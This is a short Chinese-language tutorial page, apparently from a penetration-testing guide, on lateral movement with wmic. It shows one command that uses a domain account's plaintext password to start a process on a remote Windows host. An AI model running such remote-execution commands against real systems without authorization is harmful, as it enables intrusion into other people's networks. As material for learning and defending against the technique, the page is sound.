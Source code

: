 ```yaml
---
title: "4.2.2.2 利用 wmic 进行横向移动"
id: zhfly3424
---
```


#### 4.2.2.2 利用 wmic 进行横向移动

利用系统自带的工具 wmic 在目标主机上执行任意命令

```
wmic /node:192.168.19.178 /user:adtest\jeff1 /password:test@123 process call create "calc" 缺点:无法回显命令 
```

![image](../img/60d6a5f292fcebf567663ac9ef1ecf02.png)